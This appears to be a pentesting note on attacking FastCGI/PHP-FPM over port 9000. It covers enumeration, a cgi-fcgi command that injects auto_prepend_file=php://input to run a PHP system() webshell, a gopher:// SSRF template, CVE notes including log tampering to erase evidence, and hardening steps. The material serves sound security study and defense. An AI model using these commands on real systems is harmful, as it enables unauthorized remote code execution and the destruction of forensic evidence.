

# 47 - FastCGI (Port 9000) Pentesting

## 1. Executive Summary

FastCGI is the binary protocol a web server uses to hand requests to an application runtime — most commonly **PHP-FPM**. It defaults to **TCP 9000** and **nmap does not recognise it** (shows "unknown"). Usually it listens only on localhost, which is why the classic kill-chain is **SSRF → FastCGI → RCE**: if you can reach the FPM socket (directly when it's exposed, or via `gopher://` from an SSRF), you can set `PHP_VALUE`/`PHP_ADMIN_VALUE` to override `auto_prepend_file` and force execution of attacker PHP — code execution as the FPM worker. Several CVEs add fuel: **libfcgi ≤2.4.4** integer overflow (heap RCE on 32-bit/IoT) and **CVE-2024-9026** PHP-FPM log manipulation.

## 2. Protocol Overview & Architecture

FastCGI multiplexes typed records over the socket: `FCGI_BEGIN_REQUEST`, `FCGI_PARAMS` (the CGI environment — `SCRIPT_FILENAME`, `REQUEST_METHOD`, etc.), `FCGI_STDIN` (body), terminated by empty records. PHP-FPM trusts `SCRIPT_FILENAME` to choose which file to execute, and honours `PHP_VALUE`/`PHP_ADMIN_VALUE` params — so a crafted record set both *picks a file* and *injects php.ini directives*, which is the RCE primitive.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 9000 <target>     # usually 'unknown' — confirm manually

# Probe the default php-fpm status page
SCRIPT_FILENAME=/status SCRIPT_NAME=/status REQUEST_METHOD=GET \
  cgi-fcgi -bind -connect 127.0.0.1:9000
```

## 4. Exploitation Deep Dive

### 4.1 RCE via cgi-fcgi (direct socket)
Point `SCRIPT_FILENAME` at a known-existing PHP file and inject directives to run your code:
```bash
# auto_prepend_file pulls in php://input where we put <?php system($_GET[cmd]); ?>
PHP_VALUE="auto_prepend_file=php://input" \
SCRIPT_FILENAME=/var/www/html/index.php REQUEST_METHOD=GET \
  cgi-fcgi -bind -connect 127.0.0.1:9000
```

### 4.2 RCE via SSRF + gopher
When 9000 is localhost-only but an HTTP app has SSRF, encode a full FastCGI record stream into a `gopher://` URL aimed at the FPM listener:
```
gopher://127.0.0.1:9000/_<URL-encoded FCGI_PARAMS + FCGI_STDIN with PHP payload>
```
Build the record stream with a small Python script (`struct`/`socket`) — `rec(4, params)` = FCGI_PARAMS, `rec(5, body)` = FCGI_STDIN.

### 4.3 Relevant CVEs
- **libfcgi ≤2.4.4 (2024) integer overflow** — crafted `nameLen`/`valueLen` overflow on 32-bit builds (common in embedded/IoT) → heap RCE when the socket is reachable.
- **CVE-2024-9026** — with `catch_workers_output = yes`, attackers who can send FastCGI requests can truncate/inject up to 4 bytes per log line to erase IOCs or poison logs.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- RCE as the FPM user (often `www-data`) → webroot, app config, DB creds.
- Pivot via the app server; clean/poison logs with CVE-2024-9026 (note: detection-relevant, document don't abuse on prod).

## 7. Defense & Hardening
1. Bind PHP-FPM to a Unix socket or `127.0.0.1` only; never expose 9000.
2. Restrict `SCRIPT_FILENAME` (`security.limit_extensions`), disable dangerous PHP funcs, set `auto_prepend_file` safely.
3. Patch libfcgi / PHP-FPM (CVE-2024-9026, libfcgi overflow).
4. Fix the upstream SSRF; firewall 9000.

## 8. Chaining Opportunities
- SSRF source often a web app → see **Web Application Security** SSRF notes.
- Shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[46 - AJP Apache JServ (Port 8009) Pentesting]]

## 10. Tools
`cgi-fcgi`, custom Python FastCGI record builder, `nmap`, `gopherus` (gopher payload gen).
